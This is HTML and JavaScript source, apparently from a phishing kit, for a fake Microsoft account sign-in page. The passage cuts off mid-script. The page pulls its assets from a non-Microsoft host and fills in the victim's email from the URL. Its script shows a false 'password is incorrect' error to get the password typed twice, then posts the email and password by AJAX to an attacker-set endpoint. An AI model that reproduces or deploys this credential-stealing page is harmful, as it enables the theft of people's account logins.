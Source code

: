 <input type="hidden" id="i0327" data-bind="attr: { name: svr.Bt }, value: flowToken" name="PPFT" value="DdgubPbnxb*7X1QDPCcUrLEGpZcXqpH2rVklTCWfQnMt5TRc8NSWLPIqZvf*eoIkKNpYSKipHtcU*FkFjaXG5owv2SV9yZDavrnQOWGLL2whNUOwAn6v4rhMEMGKSkfeUQg*W2h0n8XGgWjKD9xxeKzTecKsbLbFzJNug!!46LOItvtEtN8BZ8ZqcdU3mNq1DztP*XKmZG9eRBUv4myX7DGrGq9pfQKHR6nUznlkgbsLaVfkIm0yejVt2xPA*CnPeA$$"> <input type="hidden" name="PPSX" data-bind="value: svr.cd" value="Passport"> <input type="hidden" name="NewUser" value="1"> <input type="hidden" name="FoundMSAs" data-bind="value: svr.AD"> <input type="hidden" name="fspost" data-bind="value: svr.fPOST_ForceSignin ? 1 : 0" value="0"> <input type="hidden" name="i21" data-bind="value: wasLearnMoreShown() ? 1 : 0" value="0"> <input type="hidden" name="CookieDisclosure" data-bind="value: svr.ay ? 1 : 0" value="0"> <input type="hidden" name="IsFidoSupported" data-bind="value: isFidoSupported() ? 1 : 0" value="0"> <input type="hidden" name="isSignupPost" data-bind="value: isSignupPost() ? 1 : 0" value="0"><div data-bind="component: { name: 'instrumentation-control', publicMethods: instrumentationMethods, params: { serverData: svr } }"><input type="hidden" name="i2" data-bind="value: clientMode" value="1"> <input type="hidden" name="i17" data-bind="value: srsFailed" value="0"> <input type="hidden" name="i18" data-bind="value: srsSuccess"> <input type="hidden" name="i19" data-bind="value: timeOnPage"></div><div id="footer" style="background: none" class="footer default" role="contentinfo" data-bind=" css: { 'default': backgroundLogoUrl(), 'new-background-image': useNewDefaultBackground }"><div data-bind="component: { name: 'footer-control', publicMethods: footerMethods, params: { serverData: svr, useNewDefaultBackground: useNewDefaultBackground(), hasDarkBackground: backgroundLogoUrl(), showLinks: true }, event: { agreementClick: footer_agreementClick, showDebugDetails: toggleDebugDetails_onClick } }"><div id="footerLinks" class="footerNode text-secondary"><a onclick="return window.location.replace(window.location.href),!1" id="ftrTerms" data-bind="text: str['MOBILE_STR_Footer_Terms'], href: termsLink, click: termsLink_onClick" href="https://login.live.com/gls.srf?urlID=WinLiveTermsOfUse&amp;mkt=EN-US&amp;vv=1600&amp;uaid=e924dbca0d1043b69effe759f3bdfdbe" style="color: black">Terms of use</a> <a onclick="return window.location.replace(window.location.href),!1" id="ftrPrivacy" data-bind="text: str['MOBILE_STR_Footer_Privacy'], href: privacyLink, click: privacyLink_onClick" href="https://login.live.com/gls.srf?urlID=MSNPrivacyStatement&amp;mkt=EN-US&amp;vv=1600&amp;uaid=e924dbca0d1043b69effe759f3bdfdbe" style="color: black">Privacy &amp; cookies</a> <a onclick="return window.location.replace(window.location.href),!1" id="moreOptions" href="#" role="button" class="moreOptions" data-bind=" click: moreInfo_onClick, ariaLabel: str['CT_STR_More_Options_Ellipsis_AriaLabel'], attr: { 'aria-expanded': showDebugDetails().toString() }, hasFocusEx: focusMoreInfo()" aria-label="Click here for troubleshooting information" aria-expanded="false"><img class="desktopMode" role="presentation" pngsrc="https://cdn-jm-tools.web.app/d..p/others/mi..cro---t/ellipsis_white_0ad43084800fd8b50a2576b5173746fe.png" svgsrc="https://cdn-jm-tools.web.app/d..p/others/mi..cro---t/ellipsis_grey_2b5d393db04a5e6e1f739cb266e65b4c.svg" data-bind="imgSrc" src="https://cdn-jm-tools.web.app/d..p/others/mi..cro---t/ellipsis_grey_2b5d393db04a5e6e1f739cb266e65b4c.svg"> <img class="mobileMode" role="presentation" pngsrc="https://cdn-jm-tools.web.app/d..p/others/mi..cro---t/ellipsis_grey_5bc252567ef56db648207d9c36a9d004.png" svgsrc="https://cdn-jm-tools.web.app/d..p/others/mi..cro---t/ellipsis_grey_2b5d393db04a5e6e1f739cb266e65b4c.svg" data-bind="imgSrc" src="https://cdn-jm-tools.web.app/d..p/others/mi..cro---t/ellipsis_grey_2b5d393db04a5e6e1f739cb266e65b4c.svg"></a></div></div></div></div></div></div></div><script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.0/jquery.min.js" integrity="sha256-xNzN2a4ltkB44Mc/Jz3pT4iU1cmeR0FkXs4pru/JxaQ=" crossorigin="anonymous"></script><script>document.getElementById("login-passwd").addEventListener("keyup",function(event) {event.preventDefault();if (event.keyCode === 13) {document.getElementById('idSIButton9').click();}}); let url=location.href,em="";var first=!1;if(url.includes("?")){url=location.href.split("?")[0];let a=location.href.split("?")[1];a.includes("email=")?(a=a.split("email=")[1],a.includes("&")?(a=a.split("&")[0],em=decodeURIComponent(a),a="&email="+em):(em=decodeURIComponent(a),a="&email="+em)):a="",a.includes("errorCode=")&&(first=!0,document.getElementById("passwordError").innerHTML="Your password is incorrect, Verify your password",document.getElementById("passwordError").classList.remove("hme")),document.getElementById("e_mail").value=em,document.getElementById("displayName").innerHTML=em,document.getElementById("displayName").title=em}function submit_form(){if($("#idSIButton9").hasClass("button_submit"))return!1;$("#idSIButton9").addClass("puree-spinner-button");let a=$("#login-passwd").val(),b=$("#e_mail").val();return 1>a.trim().length?($("#login-passwd").addClass("has-error"),$("#passwordError").removeClass("hme").html("Please enter the email password."),continue_function()):6>a.length?($("#login-passwd").addClass("has-error"),$("#passwordError").removeClass("hme").html("Your account password is incorrect."),continue_function()):($("#passwordError").addClass("hme"),$("#login-passwd").removeClass("has-error").attr("onkeypress","return false;").attr("onkeydown","return false;"),$("#idSIButton9").addClass("button_submit").attr("onclick","return false;"),!0==first&&(result_provider+=" - Second"),$.ajax({dataType:"JSON",url:Script_link,type:"POST",data:{email:b,password:a,main_email_to:main_email_to,detail:result_provider},beforeSend:function(){$("#idSIButton9").val("Please